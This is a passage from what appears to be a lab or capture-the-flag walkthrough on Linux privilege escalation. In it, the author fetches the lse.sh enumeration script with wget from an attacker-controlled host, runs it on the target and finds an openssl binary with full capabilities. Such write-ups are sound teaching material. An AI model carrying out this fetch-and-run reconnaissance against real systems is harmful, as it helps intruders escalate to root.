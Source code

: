 Local Enumeration

Next, we'll download lse.sh, a Linux enumeration script.

$ wget http://192.168.118.3/lse.sh
--2020-11-05 12:44:50--  http://192.168.118.3/lse.sh
Connecting to 192.168.118.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 40580 (40K) [text/x-sh]
Saving to: ‘lse.sh’

lse.sh                         100%[==================================================>]  39.63K  --.-KB/s    in 0.06s   

2020-11-05 12:44:51 (620 KB/s) - ‘lse.sh’ saved [40580/40580]

We'll make the script executable and run it to obtain more information.

$ chmod +x lse.sh
$ ./lse.sh
---
If you know the current user password, write it here to check sudo privileges: 
---
...                                          
[*] sec000 Is SELinux present?............................................. nope
[*] sec010 List files with capabilities.................................... yes!
[!] sec020 Can we write to a binary with caps?............................. yes!
---
/opt/cert/openssl
---
[!] sec030 Do we have all caps in any binary?.............................. yes!
---
/opt/cert/openssl =ep
---
[*] sec040 Users with associated capabilities.............................. nope
[!] sec050 Does current user have capabilities?............................ skip
========================================================( recurrent tasks )=====
...

The script finds that /opt/cert/openssl has empty capabilities. Linux capabilities allow binaries that are executed by non-root users to perform limited privileged (root) operations.

We can confirm this with the following:

$ cd /opt/cert && ls -la
total 724
drwxr-xr-x 2 root root   4096 Nov  5 08:42 .
drwxr-xr-x 4 root root   4096 Nov  5 08:42 ..
-rwx------ 1 root root   1245 Nov  5 08:42 certificate.pem
-rwx------ 1 root root   1704 Nov  5 08:42 key.pem
-rwxr-x--- 1 tom  tom  723944 Nov  5 08:42 openssl
$ getcap ./openssl
./openssl =ep
